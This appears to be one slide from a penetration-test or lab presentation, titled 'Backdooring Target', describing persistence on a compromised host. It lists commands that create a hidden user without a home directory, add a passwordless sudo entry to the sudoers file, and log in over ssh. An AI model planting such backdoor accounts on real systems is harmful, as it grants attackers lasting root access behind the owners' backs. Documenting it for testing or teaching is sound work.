

# Backdooring Target
Backdoor Overview
A hidden user with ssh access was created with passwordless sudo access.
Installed through the root shell.
adduser –no-create-home {username}
visudo
The following entry was added to the sudoers file
{username} ALL=(ALL) NOPASSWD:ALL
The user is connected to via ssh
ssh {username}@{targetIP}
24